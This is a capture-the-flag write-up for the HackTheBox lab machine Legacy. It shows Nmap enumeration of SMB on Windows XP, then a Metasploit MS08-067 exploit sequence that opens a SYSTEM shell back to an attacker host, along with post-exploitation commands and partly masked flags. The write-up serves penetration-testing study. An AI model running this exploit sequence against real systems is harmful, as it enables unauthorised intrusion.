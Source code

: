 ```yaml
---
lang: "en"
classoption: oneside
code-block-font-size: \scriptsize
geometry: "a4paper"
geometry: "margin=2cm"
header-includes:
  - \usepackage{float}
  - \floatplacement{figure}{H}
  - \usepackage{xcolor}
  - \hypersetup{breaklinks=true,
                bookmarks=true,
                pdftitle="Legacy",
                pdfauthor="svachal (@7h3rAm)",
                pdfsubject='Writeup for HackTheBox VM Legacy',
                pdfkeywords="oscp htb windows",
                colorlinks=true,
                linkcolor=cyan,
                urlcolor=blue}
  - \usepackage{fvextra}
  - \DefineVerbatimEnvironment{Highlighting}{Verbatim}{breaklines,breakanywhere=true,commandchars=\\\{\}}
  - \usepackage{mathtools}
---
```


# [[HackTheBox] Legacy](https://www.hackthebox.eu/home/machines/profile/2)

**Date**: 01/Nov/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [htb](https://github.com/7h3rAm/writeups/search?q=htb&unscoped_q=htb), [windows](https://github.com/7h3rAm/writeups/search?q=windows&unscoped_q=windows)  
**Tags**: [exploit_smb_ms08_067](https://github.com/7h3rAm/writeups/search?q=exploit_smb_ms08_067&unscoped_q=exploit_smb_ms08_067)  

## Overview
This is a writeup for HackTheBox VM [Legacy](https://www.hackthebox.eu/home/machines/profile/2). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](Box%20Write-ups/htb.legacy/machinescli.png)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](Box%20Write-ups/htb.legacy/killchain.png)


### TTPs
1\. `139/tcp/netbios-ssn/Microsoft Windows netbios-ssn`: [exploit_smb_ms08_067](https://github.com/7h3rAm/writeups#exploit_smb_ms08_067)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Fri Nov  1 14:44:27 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.legacy/results/10.10.10.4/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.legacy/results/10.10.10.4/scans/xml/_quick_tcp_nmap.xml 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up, received user-set (0.057s latency).
Scanned at 2019-11-01 14:44:28 PDT for 276s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE       REASON          VERSION
139/tcp  open   netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  syn-ack ttl 127 Windows XP microsoft-ds
3389/tcp closed ms-wbt-server reset ttl 127
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h59m53s, deviation: 1h24m50s, median: -4h59m53s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:0c:03 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 b9 0c 03 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 13850/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 54226/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-01T20:44:53+02:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 14:49:04 2019 -- 1 IP address (1 host up) scanned in 276.38 seconds

```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

![writeup.enumeration.steps.2.1](Box%20Write-ups/htb.legacy/openports.png)  

3\. From the Nmap scan results, we find that the target system has SMB service running and is a Windows XP system:  
``` {.python .numberLines}
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-01T20:44:53+02:00

```


### Findings
#### Open Ports
``` {.python .numberLines}
137/udp  |  netbios-ns    |  Microsoft Windows netbios-ns (workgroup: HTB)
139/tcp  |  netbios-ssn   |  Microsoft Windows netbios-ssn
445/tcp  |  microsoft-ds  |  Windows XP microsoft-ds
```

\newpage
## Phase #2: Exploitation
1\. For a Microsoft Windows XP system with open SMB, we use the MSF [MS08-067](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067) exploit `windows/smb/ms08_067_netapi` and gain a shell with elevated privileges on the target system:  
``` {.python .numberLines}
msfconsole
  use exploit/windows/smb/ms08_067_netapi
  set RHOST 10.10.10.4
  set LHOST 10.10.14.18
  show options
  exploit

```

![writeup.exploitation.steps.1.1](Box%20Write-ups/htb.legacy/screenshot01.png)  

2\. We then obtain further information about the system and read the contents of both `user.txt` and `root.txt` files to comeplete the challenge:  
``` {.python .numberLines}
ipconfig
systeminfo
dir user.txt /s /p
type "C:\Documents and Settings\john\Desktop\user.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"

```

![writeup.exploitation.steps.2.1](Box%20Write-ups/htb.legacy/screenshot02.png)  

![writeup.exploitation.steps.2.2](Box%20Write-ups/htb.legacy/screenshot03.png)  

![writeup.exploitation.steps.2.3](Box%20Write-ups/htb.legacy/screenshot04.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
ntauth/system@LEGACY> id
NT AUTHORITY\SYSTEM
ntauth/system@LEGACY>  
ntauth/system@LEGACY> uname
Host Name:                 LEGACY
OS Name:                   Microsoft Windows XP Professional
OS Version:                5.1.2600 Service Pack 3 Build 2600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Uniprocessor Free
ntauth/system@LEGACY>  
ntauth/system@LEGACY> ifconfig
Ethernet adapter Local Area Connection:
  Connection-specific DNS Suffix  . :
  IP Address. . . . . . . . . . . . : 10.10.10.4
  Subnet Mask . . . . . . . . . . . : 255.255.255.0
  Default Gateway . . . . . . . . . : 10.10.10.2
ntauth/system@LEGACY>  
ntauth/system@LEGACY> users
Administrator
john
```

\newpage

\newpage

## Loot
### Flags
``` {.python .numberLines}
C:\Documents and Settings\john\Desktop\user.txt: e69af0e4f443de7e................
C:\Documents and Settings\Administrator\Desktop\root.txt: 993442d258b0e0..................
```

## References
[+] <https://www.hackthebox.eu/home/machines/profile/2>  
[+] <https://medium.com/@_C_3PJoe/htb-retired-box-walkthrough-legacy-147bbcc9ff02>  
